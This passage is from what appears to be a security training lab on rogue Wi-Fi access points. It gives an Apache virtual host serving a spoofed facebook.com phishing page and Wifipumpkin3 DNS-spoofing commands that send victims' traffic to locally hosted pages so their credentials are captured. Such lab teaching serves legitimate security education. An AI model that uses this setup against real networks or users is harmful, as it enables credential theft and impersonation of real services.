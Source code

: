 <li>
<code>Setting up Facebook vhost</code>
</li>
</ol>
<p>Create the file <code>/etc/apache2/sites-available/intranet2.conf</code> with the following content:</p>
<pre><code class="language-configuration">&lt;VirtualHost *:80&gt;
    ServerAdmin <a class="__cf_email__" data-cfemail="c3a2a7aeaaad83a5a2a0a6a1acaca8eda0acae" href="/cdn-cgi/l/email-protection">[email protected]</a>
    ServerName facebook.com
    ServerAlias www.facebook.com
    DocumentRoot /var/www/html/facebook
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
&lt;/VirtualHost&gt;
</code></pre>
<p>This ensures that requests for facebook.com are served from /var/www/html/facebook.</p>
<p>After creating these files, we need to enable the vhosts by running the following commands:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo a2ensite intranet1.conf
[!bash!]$ sudo a2ensite intranet2.conf
[!bash!]$ sudo systemctl restart apache2
</code></pre>
<p>After configuring Apache with the virtual hosts for multiple phishing pages, the same process used for single-domain spoofing in <code>Wifipumpkin3</code> can be applied. However, the domains parameter should now include multiple domains as shown below.</p>
<pre><code class="language-shell-session">wp3 &gt; use spoof.dns_spoof
wp3 : dns_spoof &gt; set domains academy.hackthebox.com,facebook.com
wp3 : dns_spoof &gt; set redirectTo 10.0.0.1
wp3 : dns_spoof &gt; start

[*] DnsSpoof attack
===================

[*] Redirect to: 10.0.0.1 

[*] Targets:
============

[*] -&gt; [academy.hackthebox.com] 
[*] -&gt; [facebook.com] 
wp3 : dns_spoof &gt; back
</code></pre>
<p>When victims connect to our rogue access point and attempt to visit academy.hackthebox.com or facebook.com, they will be redirected to their respective phishing pages hosted locally on our machine. If the victim enters their credentials, the entered data will be captured and logged.</p>
<pre><code class="language-shell-session">wp3 &gt;  [  pydhcp_server  ] 21:25:26  - RECV from ('0.0.0.0', 68):
::Body::
	[X][012] hostname: 'client'
	[ ][050] requested_ip_address: IPv4Address('192.168.1.23')
	[-][053] dhcp_message_type: DHCP_DISCOVER
	[-][055] parameter_request_list: 012:hostname, 053:dhcp_message_type
